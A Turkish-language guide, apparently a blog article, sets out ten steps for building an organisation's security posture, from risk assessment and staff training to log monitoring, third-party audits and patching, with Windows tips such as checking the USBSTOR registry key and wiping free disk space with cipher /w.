Güvenli bir kurum oluşturmanın önündeki temel zorlukları ele aldıktan sonra, şimdi başarılı bir güvenlik duruşu oluşturmanın 10 temel adımını inceleyelim. Aşağıdaki adımlar her ölçekteki bir işletmeyi sağlam ve savunulabilir bir güvenlik yapısına kavuşturacaktır.

#### 1. Risk ve Tehditleri Değerlendirin

Güvenli bir kurum oluşturmaya çalışırken nereden başlamalısınız? Yaygın inanışlardan biri, öncelikle varlıklarınızı belirlemeniz ve güvenlik kaynaklarını her bir varlığın değerine göre tahsis etmeniz gerektiğidir. Bu yaklaşım etkili olsa da bazı önemli güvenlik açıklarına yol açabilir. Örneğin bir altyapı varlığı yüksek bir değere sahip olmayabilir, ancak yüksek değerli bir varlıkla aynı çabayla korunmalıdır. Aksi takdirde, ağınıza bir giriş noktası olabilir ve değerli verilere erişim sağlayabilir.

Bir başka yaklaşım da kuruluşunuza ve verilerinize yönelik tehditleri değerlendirerek işe başlamaktır.

Başlamak için ilk yer, bir kuruluşun altyapı modeline dayalı riskleri belirlemektir. İşletmenin operasyonel ihtiyaçlarını desteklemek için gerekli olan altyapı nedir? Tek bir ofiste faaliyet gösteren küçük bir işletme, çok sayıda tesiste faaliyet gösteren, çeşitli el cihazları kullanan mobil bir işgücüne sahip olan ve Web tabanlı bir arayüz üzerinden ürün veya hizmet sunan bir kuruluşa kıyasla daha az riske sahiptir. Çok sayıda uzaktan çalışanı olan bir kuruluş, potansiyel olarak şirket kontrolü dışındaki kişisel bilgisayarlarda bulunabilecek özel bilgilerini korumak için adımlar atmalıdır. Geniş çapta dağınık ve farklı sistemlere sahip bir kuruluş, tek tip sistemler kullanan merkezi bir kuruluşa göre daha fazla risk potansiyeline sahip olacaktır.

İşletmeniz için özel tehditler var mı? Üst düzey yöneticiler, hissedarların veya çalışanların işletmeye saldırmaya teşvik edecekleri uygunsuz faaliyetlerle suçlandı mı? Gerçek ya da hayali hakaretler ya da kazalar nedeniyle şirkete karşı kan davası güden kişiler var mı? Toplumun kuruluşa karşı bir düşmanlık geçmişi var mı? Bir risk yönetimi veya güvenlik ekibi, riskleri gerçek zamanlı olarak değerlendirmek için bu soruları düzenli olarak sormalıdır. Güvenlik sürecinin bu kısmı, günlük iş yüküne odaklanılması nedeniyle genellikle göz ardı edilmektedir.

Belirli sektörlere ait işletmeler, diğer sektörlerdekilere kıyasla daha sık ve daha özverili bir şekilde hedef alınmaktadır. Finans kurumları ve online perakendeciler hedef alınmaktadır çünkü "paranın olduğu yer orasıdır". İlaç üreticileri fikri mülkiyeti çalmak için hedef alınabilir, ancak aynı zamanda ilaçların canlı hayvanlar üzerinde test edilmesine inanmayanlar gibi özel çıkar grupları tarafından da hedef alınabilirler.

**Küresel Tehditler**İşletmeler genellikle kendi yerel etki alanlarına o kadar dar bir şekilde odaklanırlar ki, internete bağlı bir ağa sahip olduklarında artık dünyanın geri kalanına da bağlı olduklarını unuturlar. Eğer dünyanın diğer ucunda tespit edilen bir kötü amaçlı yazılım sizin kuruluşunuzda kullanılan aynı yazılımı hedef alıyorsa, eninde sonunda bu kötü amaçlı yazılımdan etkileneceğinizden emin olabilirsiniz. Ayrıca, diğer ülkelerdeki aşırılık yanlısı gruplar sizin sektörünüzü hedef alıyorsa, siz de hedef alınacaksınız.

Tehditler ve riskler belirlendikten sonra dört adımdan birini atabilirsiniz:

* **Riski görmezden gelin**. Bu asla kabul edilebilir bir yanıt değildir. Bu basitçe kafanızı kuma gömmek ve sorunun ortadan kalkmasını ummaktır — motosiklet sürerken kask takmamanın iş dünyasındaki karşılığı
* **Riski kabul edin**. Riski ortadan kaldırmanın maliyeti riskin kendisinden daha fazla olduğunda, bir kuruluş genellikle riski kabul etmeye karar verecektir. Kuruluş riski değerlendirmek için gereken zamanı harcadığı sürece bu uygulanabilir bir seçenektir.
* **Riski transfer etmek**. Sınırlı personeli veya diğer kaynakları olan kuruluşlar riski transfer etmeye karar verebilirler. Riski transfer etmenin bir yöntemi de belirli bir riski hedefleyen özel bir sigorta satın almaktır.
* **Riski hafifletmek**. Çoğu kuruluş, ağlarına yönelik riskleri en aza indirmek için uygun kaynakları kullanarak riski azaltır.

Ağlarına ve bilgi varlıklarına yönelik riskleri belirlemek ve ölçmek isteyen kuruluşlar için CERT, projeye yardımcı olacak ücretsiz bir araç paketi sunmaktadır.

Yardımcı olabilecek bir başka risk değerlendirme aracı da**Risk Management Framework** (RMF) aracıdır.

#### 2- Yaygın Yanlış Anlayışlara Dikkat Edin

Bir kuruluşun güvenlik ihtiyaçlarını ele alırken, profesyonellerin çok yaygın bazı yanlış anlamalara kapılması yaygındır. Belki de en yaygın yanılgı, işletmenin belirsiz, karmaşık olmayan veya sıkıcı olduğu, yani kötü niyetli faaliyetler için bir hedef olmadığıdır. İşletmeler, işletmenin türü ne olursa olsun, internete bağlı her ağın potansiyel bir hedef olduğunu anlamalıdır.

Saldırganlar çeşitli nedenlerle bir ağa ve sistemlerine erişim sağlamaya çalışırlar. Bunlardan ilki ne bulabileceklerini görmek için etrafa bakmaktır. İşletmenin türü ne olursa olsun, personel bilgileri büyük olasılıkla sistemlerden birinde saklanacaktır. Buna Sosyal Güvenlik numaraları ve diğer kişisel bilgiler de dahildir. Bu tür bilgiler her zaman bir hedeftir.

Bir başka olasılık da saldırganın bulduğu bilgileri değiştirmesi ya da sistemleri anormal davranacak şekilde yeniden yapılandırmasıdır. Bu tür saldırganlar finansal kazançla ilgilenmez; sadece camları sabunlayan, arabaları yumurtlayan ve mülkleri tuvalet kağıdıyla kaplayan gençlerin teknoloji versiyonudur. Saldırır çünkü bunu yapmayı eğlenceli bulur. Ayrıca bu saldırganlar sistemleri çocuk pornografisi ya da kredi kartı numaraları gibi çalıntı verileri depolamak için de kullanabilir. Bir sistem güvenli değilse, saldırganlar bu tür materyalleri sisteminizde depolayabilir ve boş zamanlarında bunlara erişebilirler.

Son olasılık ise bir saldırganın saldırıya uğramış sistemleri diğer korumasız ağlara ve sistemlere saldırı düzenlemek için kullanmasıdır. Bilgisayarlar hizmet reddi (DoS) saldırıları düzenlemek, spam iletmek veya kötü amaçlı yazılım yaymak için kullanılabilir. Basitçe söylemek gerekirse, hiçbir bilgisayar veya ağ saldırıya karşı bağışık değildir.

Bir başka yaygın yanlış kanı da bir kuruluşun çalışanlarının neden olduğu sorunlardan muaf olduğudur, yani "Tüm çalışanlarımıza güveniyoruz, bu nedenle enerjimizi varlıklarımızı onlardan korumaya odaklamamız gerekmiyor". Bu durum, sahiplerinin herkesi tanıdığı küçük işletmelerde yaygın olsa da, şirketlerin yalnızca "profesyonelleri" işe aldıklarına inandıkları daha büyük kuruluşlarda da görülür. İş adayları kendilerini ne kadar iyi tanıtırsa tanıtsın, bir işletmenin bir çalışanın geçmişi hakkında her şeyi asla bilemeyeceğini unutmamak önemlidir. Bu nedenle işletmelerin tüm çalışanlar için istihdam öncesi geçmiş kontrolleri yapmaları önemlidir. Ayrıca, bu geçmiş kontrollerinin düzgün ve eksiksiz bir şekilde yapılması da önemlidir.

Bir diğer yaygın yanlış anlama da bilgi teknolojisi profesyonelleriyle ilgilidir. Birçok şirket, düzgün işleyen bir teknik altyapıya sahip olmanın şirketin devam eden başarısı için önemli olduğunu anladıkları için BT personeline oldukça yüksek maaşlar öder. Personel, sistemleri ve ağları kurma ve sürdürme konusunda yetenekli olduğundan, bilgisayarlar hakkında bilinebilecek her şeyi bildikleri genel bir varsayımdır.  
Bir birey çok bilgili ve teknolojik olarak gelişmiş olsa da, hiç kimsenin bilgisayarlar hakkında her şeyi bilmediğini kabul etmek önemlidir. Yönetim teknolojiyi anlamadığı için, bir kişinin alandaki bilgi ve deneyim derinliğini değerlendirmek için çok iyi bir konumda değildir. Kararlar genellikle bir kişinin kariyeri boyunca elde ettiği sertifikalara dayanır. Sertifikalar bir kişinin yeterlilik seviyesini belirlemek için kullanılabilse de, bunlara çok fazla önem verilir. Birçok sertifika, bir sertifika sınavını çalışmak ve geçmek için biraz zaman ve özveriden başka bir şey gerektirmez. Bazı eğitim şirketleri ayrıca bir kişinin sertifika sınavını geçeceğini garanti eden eğitim kampları da sunar. İnsanların, sertifika tarafından ele alınan işletim sistemleri, uygulamalar veya donanımlarla ilgili gerçek dünya deneyimi olmadan sertifika almaları mümkündür. Bir kişinin yeterliliğini değerlendirirken, öncelikle onun deneyim seviyesine ve geçmişine bakın ve eğer kişi önemli gerçek dünya deneyimine sahip olmasının yanı sıra sertifikalar da elde ettiyse, sertifika muhtemelen çalışanın gerçek yeteneklerinin bir yansımasıdır.

#### 3- BT Personeline Güvenlik Eğitimi Sağlayın — Şimdi ve Her Zaman

Sağlam ve güvenli bir ortamın hayata geçirilmesi nasıl dinamik bir süreçse, güvenlik uzmanlarından oluşan yüksek vasıflı bir kadro oluşturmak da dinamik bir süreçtir. Bir kuruluşun teknik altyapısı çok sık değişmese de, düzenli olarak yeni güvenlik açıklarının keşfedildiğini ve yeni saldırıların başlatıldığını akılda tutmak önemlidir. Buna ek olarak, çok az kuruluş durağan bir altyapıya sahiptir; çalışanlar sürekli olarak yeni yazılımlar talep etmekte ve verimliliği artırmak amacıyla daha fazla teknoloji eklenmektedir. Her yeni ekleme, muhtemelen ek güvenlik açıkları ekler.

BT personelinin yeni tehditleri ve güvenlik açıklarını tespit etmeye ve bunlara yanıt vermeye hazırlıklı olması önemlidir. Derin bir güvenlik anlayışı kazanmak isteyenlerin satıcıdan bağımsız bir programla başlamaları tavsiye edilir. Satıcıdan bağımsız bir program, belirli ürünler yerine kavramlara odaklanan bir programdır. SANS (SysAdmin, Audit, Network, Security) Enstitüsü iki giriş programı sunmaktadır: Bilgi Güvenliğine Giriş (Security 301) , güvenlik alanında yeni başlayan kişiler için tasarlanmış beş günlük bir sınıf ve SANS Security Essentials Bootcamp (Security 401) , biraz güvenlik deneyimi olan kişiler için tasarlanmış altı günlük bir sınıf. Her sınıf kendi kendine çalışma programı olarak da mevcuttur ve her biri belirli bir sertifikaya hazırlanmak için kullanılabilir.

Diğer bir seçenek de CompTia Security sertifikasyon gerekliliklerini takip eden bir programla başlamaktır, örneğin Global Knowledge Essentials of Information Security. Bazı üniversiteler benzer programlar sunmaktadır.

Bir kişi güvenlik konusunda iyi bir temel altyapıya sahip olduktan sonra, öğrendiği kavramları belirli uygulamalara ve güvenlik cihazlarına uygulamak için satıcıya özgü eğitimden geçmelidir.

Bir çalışanın bilgi güvenliği kavramlarını güçlü bir şekilde kavrayıp kavramadığını belirlemenin tartışmasız en iyi yollarından biri, Sertifikalı Bilgi Sistemleri Güvenlik Uzmanı (CISSP) sertifikasına sahip olup olmadığıdır. Bu sertifika için adaylar aşağıdaki 10 bilgi alanını anlayıp anlamadıkları konusunda test edilirler:

* Access control
* Application security
* Business continuity and disaster recovery planning
* Cryptography
* Information security and risk management
* Legal, regulations, compliance, and investigations
* Operations security
* Physical (environmental) security
* Security architecture and design
* Telecommunications and network security

Bu sertifikayı bu kadar değerli kılan şey, adayın bilgi güvenliği alanında en az beş yıllık profesyonel deneyime veya dört yıllık deneyime ve üniversite derecesine sahip olması gerektiğidir. Sertifikayı korumak için, sertifikalı bir kişinin üç yıllık sertifika döngüsü boyunca 120 saatlik sürekli mesleki eğitime katılması gerekmektedir. Bu, CISSP kimlik belgesine sahip olanların güvenlik alanındaki güncel eğilimlerden haberdar olmalarını sağlar. CISSP sertifikası (ISC)2 tarafından sürdürülmektedir.

#### 4- "Kutunun Dışında" Düşünün

Çoğu işletme için, entelektüel varlıklarına ve teknik altyapılarına yönelik tehdit, kuruluşlarının dışında oturan ve içeri girmeye çalışan "kötü adamlardan" gelir. Bu kuruluşlar güçlü çevre savunmaları kurarak esasen varlıklarını "çevrelerler". Bununla birlikte, kurum içi çalışanlar işlerini yapmak için özel bilgilere erişebilir ve bu bilgileri genellikle artık işverenin kontrolü altında olmayan alanlara yayarlar. Verilerin bu şekilde yayılması genellikle kötü niyetle yapılmaz, sadece çalışanların iş sorumluluklarını daha verimli bir şekilde yerine getirebilmeleri için verilere erişebilmelerini sağlar. Bu durum, bir çalışan işten ayrıldığında (ya da halen çalışmakta olan bir kişi özel bilgilerin depolandığı bir dizüstü bilgisayar gibi bir şeyi kaybettiğinde) ve kurum eski çalışanının elindeki özel bilgileri toplamak ya da kontrol etmek için hiçbir adım atmadığında da bir sorun haline gelir.

Fikri mülkiyete yönelik en çok göz ardı edilen tehditlerden biri, zararsız ve artık her yerde bulunan USB Flash sürücülerdir. Bilgisayarlar arasında veri aktarımı için çok uygun bir yoldur.

Bu cihazlar verilere yönelik tek tehdit değildir. USB portu aracılığıyla bilgisayara başka cihazlar da bağlanabildiğinden, dijital kameralar, MP3 çalarlar ve harici sabit diskler artık bir bilgisayardan ve bağlı olduğu ağdan veri kaldırmak için kullanılabilir. Çoğu insan harici sabit disklerin bir tehdit oluşturduğunu kabul eder, ancak diğer cihazları bir tehdit olarak görmezler.

Neyse ki Microsoft Windows, HKEY\_Local\_Machine\System\ControlSet00x\Enum\USBStor adlı bir Kayıt Defteri anahtarında bir sisteme bağlı aygıtları izler. Ne tür aygıtların bağlandığını görmek için kendi bilgisayarınızda bu anahtara bakmak ilginç olabilir.

*Windows Registry — HKLM\SYSTEM\CurrentControlSet\Enum\USBSTOR anahtarı bağlanan tüm USB cihazları kaydeder.*



USBStor Kayıt Defteri anahtarında bağlı USB aygıtlarını tanımlama

Şekilde USB Flash sürücüler, bir dijital kamera ve birkaç harici sabit disk içeren bir sisteme bağlanmış çok çeşitli aygıtları göstermektedir.

Verilerin bir kuruluşun kontrolünden çıkmasının bir başka yolu da çevrimiçi veri depolama sitelerinin kullanılmasıdır. Bu siteler, verilerin bir bilgisayardan İnternet üzerinden erişilebilen bir konuma aktarılmasını sağlar. Bu sitelerin çoğu 5 GB ya da daha fazla ücretsiz depolama alanı sağlamaktadır. Bu siteleri kara listeye almak kesinlikle mümkün olsa da, o kadar çok site var ki ve düzenli olarak daha fazlası geliştiriliyor ki, hepsine erişimi engellemek imkansız olmasa da zor.

#### 5- Çalışanları Eğitin: Bir Güvenlik Kültürü Geliştirin

En büyük güvenlik varlıklarından biri, bir işletmenin kendi çalışanlarıdır, ancak yalnızca güvenlik politikalarına uymaları ve potansiyel güvenlik sorunlarını tespit etmeleri için uygun şekilde eğitilmişlerse.

Birçok çalışan çeşitli güvenlik politikalarının ve uygulamalarının önemini anlamıyor. Daha önce de belirtildiği gibi, bu politikaları bir rahatsızlıktan başka bir şey olarak görmezler. Çalışanların desteğini ve bağlılığını kazanmak zaman alır, ancak iyi harcanmış bir zamandır. Herhangi bir güvenlik uygulamasının arkasındaki nedenleri dikkatlice açıklayarak işe başlayın. Nedenlerden biri çalışan verimliliğini sağlamak olabilir, ancak öncelikle güvenlik sorunlarına odaklanın. Onaylanmamış yazılımların indirilmesi ve kurulması, kullanıcı sistemlerine bulaşarak bilgisayarlarının yavaş çalışmasına veya hiç çalışmamasına neden olabilecek zararlı yazılımlar yükleyebilir.

Çalışanların desteğini kazanmanın belki de en doğrudan yolu, saldırılara yanıt vermek ve kullanıcılar tarafından başlatılan sorunları gidermek için gereken paranın, zamlar ve terfiler için kullanılamayacak bir para olduğunu çalışanlara bildirmektir. Çalışanların artık "oyunda bir payları" olduğunu bilmelerini sağlamak, onları güvenlik çabalarına dahil etmenin bir yoludur. Güvenlik sorunlarına müdahale için bir bütçe ayrılırsa ve çalışanlar bütçenin aşılmamasına yardımcı olursa, harcanan para ile gerçek bütçe arasındaki fark çalışanlar arasında ikramiye olarak paylaştırılabilir. Çalışanların ağ veya sistem yavaşlaması fark ettiklerinde seslerini yükseltme olasılıkları artacağı gibi, tesiste dolaşan yabancılarla yüzleşme olasılıkları da muhtemelen artacaktır.

Bu faaliyetlerin amacı, çalışanları yönetime veya güvenlik ekibine gönüllü olarak yaklaşmaya teşvik etmektir. Bu düzenli olarak gerçekleşmeye başladığında, güvenlik ekibinizin yeteneklerini genişletmiş ve çok daha güvenli bir organizasyon yaratmış olacaksınız.

#### 6- İşletim Sistemi ve Uygulamaların Yerleşik Güvenlik Özelliklerini Tanımlama ve Kullanma

Birçok kuruluş ve sistem yöneticisi, sınırlı kaynaklara sahip oldukları ve sağlam güvenlik araçları satın alacak fonları olmadığı için güvenli bir kuruluş oluşturamadıklarını belirtmektedir. Bu, güvenliğe yönelik saçma bir yaklaşımdır çünkü tüm işletim sistemleri ve birçok uygulama, bu araçları tanımlamak ve yapılandırmak için zaman dışında hiçbir kurumsal kaynak gerektirmeyen güvenlik mekanizmaları içerir. Microsoft Windows işletim sistemleri için müthiş bir kaynak Microsoft Learn platformudur. [https://learn.microsoft.com/tr-tr/security/](https://learn.microsoft.com/tr-tr/) Windows Server 2022 için oluşturulmuş rehbere linkten erişebilirsiniz: <https://info.microsoft.com/rs/157-GQE-382/images/EN-WBNR-eBook-SRDEM134534ebook.pdf>

Günümüzde bir kuruluştaki en büyük endişelerden biri, sağlam çevre güvenliğine rağmen gizli bilgilerin bir kuruluşu terk edebileceği yollar olan veri sızıntılarıdır. Daha önce de belirtildiği gibi, USB Flash sürücüler veri sızıntılarının bir nedenidir; bir diğeri ise bir bilgisayarın sabit diskinin ayrılmamış kümelerinde bulunan verilerin kurtarılmasıdır. Ayrılmamış kümeler ya da yaygın adıyla boş alan, işletim sistemi ve uygulamaların artıkları ya da artık verileri attığı sabit disk alanıdır. Bu veriler bir kullanıcı arayüzü aracılığıyla görüntülenemese de, WinHex gibi bir hex editörü kullanılarak kolayca tanımlanabilir (ve bazen kurtarılabilir).



Silinen bir Word belgesinin içeriğini görüntüleyen WinHex

Bir bilgisayarın çalınması ya da bağışlanması durumunda, birisinin ayrılmamış kümelerde bulunan verilere erişmesi çok olasıdır. Bu nedenle, birçok kişi uygun bir "disk temizleme" yardımcı programı bulmakta zorlanmaktadır. Bu tür birçok ticari araç mevcuttur, ancak Microsoft Windows işletim sistemlerinde yerleşik bir tane vardır. Komut satırı programı cipher.exe, NTFS bölümlerinde depolanan dizinlerin (dosyaların) şifrelenmesini görüntülemek ya da değiştirmek için tasarlanmıştır. Çok az kişi bu komutu bilir; daha da azı /w anahtarına aşinadır. İşte programın Yardım dosyasından anahtarın bir açıklaması:

"Tüm birimdeki mevcut kullanılmayan disk alanından verileri kaldırır. Bu seçenek seçilirse, diğer tüm seçenekler yok sayılır. Belirtilen dizin yerel bir birimde herhangi bir yerde olabilir. Bir bağlama noktasıysa veya başka bir birimdeki bir dizine işaret ediyorsa, o birimdeki veriler kaldırılır."



cipher kullanımı

Cipher'ı kullanmak için Başlat Çalıştır'a tıklayın ve cmd yazın. Cmd.exe penceresi açıldığında, cipher /w:folder yazın; burada klasör, temizlemek istediğiniz birimdeki herhangi bir klasördür ve ardından Enter tuşuna basın. Şekil 1.8'de Cipher'ın bir klasörü silmesi gösterilmektedir.

Veri sızıntılarının bir diğer kaynağı da Microsoft Office dosyalarıyla ilişkilendirilebilen kişisel ve düzenleme bilgileridir. Microsoft Word'de, uygulamayı kaydetme sırasında kişisel bilgileri kaldıracak ve izlenen değişiklikler veya yorumlar içeren bir belgeyi yazdırmak, paylaşmak veya göndermek üzere olduğunuzda sizi uyaracak şekilde yapılandırabilirsiniz.

Bu özelliğe erişmek için Word'de Araçlar Seçenekler'i ve ardından Güvenlik sekmesini tıklayın. Güvenlik penceresinin alt kısmında daha önce açıklanan iki seçeneği göreceksiniz. Kullanmak istediğiniz seçenekleri seçmeniz yeterlidir.

Güçlü bir güvenlik duruşu uygulamak genellikle oturum açma sürecini daha sağlam hale getirmekle başlar. Buna giriş şifresinin karmaşıklığının artırılması da dahildir. Yeterli zaman ve kaynak sağlandığında tüm şifreler kırılabilir, ancak bir şifrenin kırılmasını ne kadar zorlaştırırsanız, şifrenin koruduğu varlığın korunmaya devam etme olasılığı da o kadar artar.

Tüm işletim sistemlerinde parolaların karmaşıklığını artırmak için bazı mekanizmalar vardır. Microsoft Windows'da bu, Başlat, Denetim Masası, Yönetimsel Araçlar, Yerel Güvenlik İlkesi'ne tıklanarak gerçekleştirilebilir. Güvenlik Ayarları altında, Hesap İlkeleri'ni genişletin ve ardından Parola İlkesi'ni vurgulayın. Sağ taraftaki panelde parola karmaşıklığını etkinleştirebilirsiniz. Bu etkinleştirildikten sonra, parolalar aşağıdaki dört parola grubundan en az üçünü içermelidir:

* Büyük harf karakterleri (A'dan Z'ye)
* Küçük harf karakterleri (a'dan z'ye)
* Rakamlar (0'dan 9'a kadar)
* Alfabetik olmayan karakterler (!, $, #, % gibi)

Tüm işletim sistemlerinin güvenliğe yardımcı olmak için gömülü araçlara sahip olduğunu bilmek önemlidir. Bunları bulmak genellikle biraz araştırma gerektirir, ancak bunları tanımlamak için harcanan zaman, ek güvenlik ürünleri satın almak veya bir güvenlik ihlalinden kurtulmak için harcanan paradan daha azdır.

#### 7- İzleme Sistemleri

En sağlam güvenlik araçları mevcut olsa bile, sistemlerinizi izlemek önemlidir. Tüm güvenlik ürünleri insan yapımıdır ve arızalanabilir ya da tehlikeye girebilir. Teknolojinin diğer yönlerinde olduğu gibi, asla tek bir ürüne veya araca güvenilmemelidir. Sistemlerinizde log kaydetmeyi etkinleştirmek, kuruluşunuzu sorunlu alanları belirleyebilecek bir konuma getirmenin bir yoludur. Sorun şu ki, hangi log kaydedilmelidir? Bunu belirlemede yardımcı olabilecek bazı güvenlik standartları vardır. Bu standartlardan biri Ödeme Kartı Endüstrisi Veri Güvenliği Standardıdır (PCI-DSS). PCI DSS'nin 10. Gereksinimi, kuruluşların "Ağ kaynaklarına ve kart sahibi verilerine erişimi takip etmesi ve izlemesi" gerektiğini belirtir. Kart sahibi verileri ifadesi yerine gizli bilgileri koyarsanız, bu gereklilik bir log yönetimi programı için mükemmel bir yaklaşımdır. Gereksinim 10 burada yeniden türetilmiştir:

> Log tutma mekanizmaları ve kullanıcı faaliyetlerini takip etme becerisi kritik öneme sahiptir. Tüm ortamlarda logların bulunması, bir şeylerin yanlış gitmesi durumunda kapsamlı izleme ve analiz yapılmasını sağlar. Sistem etkinlik logları olmadan bir tehlikenin nedenini belirlemek çok zordur.

1. Sistem bileşenlerine tüm erişimleri (özellikle root gibi yönetici ayrıcalıklarıyla yapılan erişimleri) her bir kullanıcıya bağlamak için bir süreç oluşturun.
2. Aşağıdaki olayları yeniden yapılandırmak üzere tüm sistem bileşenleri için otomatik denetim izleri uygulayın:  
   - Kart sahibi verilerine tüm bireysel kullanıcı erişimleri  
   - Kök veya yönetici ayrıcalıklarına sahip herhangi bir kişi tarafından gerçekleştirilen tüm eylemler  
   - Tüm denetim izlerine erişim  
   - Geçersiz mantıksal erişim denemeleri  
   - Tanımlama ve kimlik doğrulama mekanizmalarının kullanımı  
   - Denetim günlüklerinin başlatılması  
   - Sistem düzeyinde nesnelerin oluşturulması ve silinmesi
3. Her olay için tüm sistem bileşenleri için en azından aşağıdaki denetim izi girişlerini kaydedin:  
   - Kullanıcı tanımlama  
   - Etkinlik türü  
   - Tarih ve saat  
   - Başarı veya başarısızlık göstergesi  
   - Etkinliğin başlangıcı  
   - Etkilenen veri, sistem bileşeni veya kaynağın kimliği veya adı
4. Tüm kritik sistem saatlerini ve zamanlarını senkronize edin.
5. Logları değiştirilemeyecek şekilde güvence altına alın:  
   - Logları görüntülenmesini işle ilgili ihtiyacı olanlarla sınırlayın.  
   - Log dosyalarını yetkisiz değişikliklere karşı koruyun.  
   - Log dosyalarını derhal merkezi bir günlük sunucusuna veya değiştirilmesi zor bir ortama yedekleyin.  
   - Kablosuz ağlar için logları dahili LAN üzerindeki bir log sunucusuna kopyalayın.  
   - Mevcut log verilerinin uyarı oluşturmadan değiştirilemeyeceğinden emin olmak için loglarda dosya bütünlüğü izleme ve değişiklik algılama yazılımı kullanın.
6. Tüm sistem bileşenleri için logları en az log tutulacak şekilde gözden geçirin. Log incelemeleri, saldırı tespit sistemi (IDS) ve kimlik doğrulama, yetkilendirme ve hesap protokolü (AAA) sunucuları (örn. RADIUS) gibi güvenlik işlevlerini yerine getiren sunucuları içermelidir.  
   Not: Uyumluluğu sağlamak için Log toplama, ayrıştırma ve uyarı araçları kullanılabilir. (SIEM gibi)
7. Logları en az bir yıl boyunca saklayın.

Gereksinim 6 biraz zorlayıcı görünüyor, çünkü çok az kuruluşun log dosyalarını manuel olarak inceleyecek zamanı var. Neyse ki, çeşitli kaynaklardan log dosyalarını toplayacak ve ayrıştıracak araçlar var. Tüm bu araçlar bireyleri belirli bir olaydan haberdar etme yeteneğine sahiptir.

Sistemlerinizi izlemek için daha da ayrıntılı bir yaklaşım, ağınıza bir paket yakalama aracı yüklemektir, böylece trafiği gerçek zamanlı olarak analiz edebilir ve yakalayabilirsiniz. Çok yararlı olabilecek bir araç, "ağ uzmanlarından oluşan uluslararası bir ekip tarafından geliştirilen ödüllü bir ağ protokolü analizörü" olan Wireshark'tır. Wireshark orijinal paket yakalama aracı Ethereal'e dayanmaktadır. Ağ trafiğini analiz etmek önemsiz bir iş değildir ve biraz eğitim gerektirir, ancak ağınızda neler olup bittiğini belirlemenin belki de en doğru yoludur. Şekilde , Wireshark'ın bir kablosuz arayüzdeki trafiği izlemesini göstermektedir.



Wireshark

#### 8- Güvenliği Denetlemesi için Üçüncü Bir Tarafı İşe Alın

Personeliniz ne kadar yetenekli olursa olsun, bir şeyi gözden kaçırmış veya bir cihazı ya da ayarı yanlış yapılandırmış olma ihtimali her zaman vardır. Bu nedenle, kuruluşunuzun güvenlik duruşunu gözden geçirmek için fazladan bir "göz, kulak ve el" seti getirmek çok önemlidir.

Her ne kadar bazı BT uzmanları üçüncü bir tarafın çalışmalarını incelemesi konusunda paranoyaklaşsa da, akıllı personel yabancılar tarafından yapılacak bir güvenlik incelemesinin harika bir öğrenme fırsatı olabileceğini kabul edecektir. Sistemlerinizi üçüncü bir tarafa inceletmenin avantajı, dışarıdan gelen kişilerin çeşitli sektörlerde çok çeşitli sistemleri, uygulamaları ve cihazları inceleme deneyimine sahip olmasıdır. Neyin iyi çalıştığını ve neyin işe yarayabileceğini ancak gelecekte sorunlara neden olabileceğini bileceklerdir. Ayrıca yeni güvenlik açıkları ve en son ürün güncellemeleri hakkında bilgi sahibi olma olasılıkları daha yüksektir. Neden mi? Çünkü yaptıkları tek şey bu. İdari görevler, şirket içi politikalar ve yardım masası talepleri tarafından engellenmezler. Şirket içi personelden daha objektif olacaklardır ve analizlerinden sonra tavsiyelerde bulunabilecek bir konumda olacaklardır.

Üçüncü taraf analizi iki yönlü bir yaklaşım içermelidir: Ağın saldırganlara nasıl göründüğünü ve saldırganların çevre savunmasını aşması durumunda sistemin ne kadar güvenli olduğunu belirlemelidirler. Genellikle sızma testi olarak adlandırılan harici inceleme birkaç şekilde gerçekleştirilebilir; birincisi, danışmanlara analizlerinden önce ağ ve sistemler hakkında kesinlikle hiçbir bilgi verilmeyen bilgisiz bir yaklaşımdır. Bu çok gerçekçi bir yaklaşım olsa da zaman alıcı ve çok pahalı olabilir. Bu yaklaşımı kullanan danışmanlar, test edilecek sistemleri numaralandırmaya başlamak için kamuya açık bilgileri kullanmalıdır. Bu gerçekçi bir yaklaşımdır, ancak kısmi bilgi analizi daha verimli ve daha az maliyetlidir. Bir ağ topolojisi şeması ve kayıtlı IP adreslerinin bir listesi sağlanırsa, üçüncü taraf incelemeciler incelemeyi daha hızlı tamamlayabilir ve sonuçlar çok daha zamanında ele alınabilir. Sızma testi tamamlandıktan sonra, dahili ağın incelenmesine başlanabilir. Dahili ağın denetimi açık paylaşımları, yamalanmamış sistemleri, açık portları, zayıf parolaları, hileli sistemleri ve diğer birçok sorunu tespit edecektir.

#### 9- Temel Bilgileri Unutmayın

Birçok kuruluş çevre savunmaları için çok fazla zaman ve para harcamakta ve bazı temel güvenlik mekanizmalarını göz ardı etmektedir.

* Varsayılan Hesap Parolalarını Değiştirin
* Sağlam Parolalar Kullanın
* Gereksiz Portları Kapatın

#### 10- Yama, Yama, Yama

Neredeyse tüm işletim sistemleri güncellemeleri otomatik olarak kontrol eden bir mekanizmaya sahiptir. Bu bildirim sistemi açık olmalıdır. Güncellemelerin otomatik olarak yüklenip yüklenmemesi gerektiği konusunda bazı tartışmalar olsa da, sistem yöneticileri en azından güncellemeler konusunda bilgilendirilmelidir. Yamaların ve güncellemelerin çözdüklerinden daha fazla soruna neden oldukları bilindiğinden, bunların otomatik olarak yüklenmesini istemeyebilirler. Bu konuda örnek olarak yakın zamanda yaşadığımız crovdtrike vakası verilebilir. <https://tr.euronews.com/next/2024/07/21/crowdstrikein-neden-oldugu-kesinti-dunya-capinda-85-milyon-bilgisayari-etkiledi>

Ancak, yöneticiler güncellemeleri yüklemeden önce çok uzun süre beklememelidir, çünkü bu durum sistemleri gereksiz yere saldırıya maruz bırakabilir.

**İdari Görevler için Yönetici Hesaplarını Kullanın**Sistem yöneticileri bilgisayarlarında yönetici haklarıyla oturum açmışken idari veya kişisel görevler yürüttüklerinde yaygın bir güvenlik açığı oluşur. E-postaları kontrol etmek, internette gezinmek ve şüpheli yazılımları test etmek gibi görevler bilgisayarı zararlı yazılımlara maruz bırakabilir. Bu, kötü amaçlı yazılımın yönetici ayrıcalıklarıyla çalışabileceği ve ciddi sorunlar yaratabileceği anlamına gelir. Yöneticiler, zararlı yazılımların bilgisayarlarının kontrolünü ele geçirmesini önlemek için sistemlerinde standart bir kullanıcı hesabı kullanarak oturum açmalıdır.

